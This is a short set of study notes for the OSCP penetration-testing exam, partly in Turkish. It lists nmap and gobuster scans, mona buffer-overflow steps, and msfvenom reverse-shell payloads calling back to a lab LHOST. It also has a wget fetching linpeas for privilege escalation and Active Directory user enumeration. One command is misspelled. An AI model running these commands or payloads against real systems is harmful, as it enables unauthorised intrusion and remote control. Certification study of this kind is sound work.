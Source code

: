 # OSCP-Prep-Notes

## İlk taramalar

nmap -sS -sV -v IP -p- #Tüm portlara stealth scan at.


gobuster dir -u http://192.168.174.101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 #dir taraması

#-x php,txt,py,c,js,bak,gz,tar,html,db,php.bak,key,jsp,asp # extension taraması

#-b 404 -s 201 # status code özelleştirme

## BOF

!mona config -set workingfolder c:\mona\%p

!mona bytearray -b "\x00"

!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS/EBX_ADDRESS>

--

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.136 LPORT=4444 -b "\x00\x0a\x0d\x20\x37" -o exploit.txt

sfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.136 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c

msfvenom -p windows/exec CMD="cmd.exe" -b '\x00\x0a\x1a' -f c


msf-pattern_create -l 5000 > exploit.txt

msf-pattern_offset -q 413461A2 -l 5000







## Privilege Escalation

wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" -O linpeas.sh

sudo -l

## Active Directory

net user # Enumerate all of the local accounts.

net user /domain # Enumerate all users in the entire domain.

net user admin_onur /domain # Enumerate spesific 'admin_onur' user in the domain.

net group /domain # Enumerate all the groups in the domain.
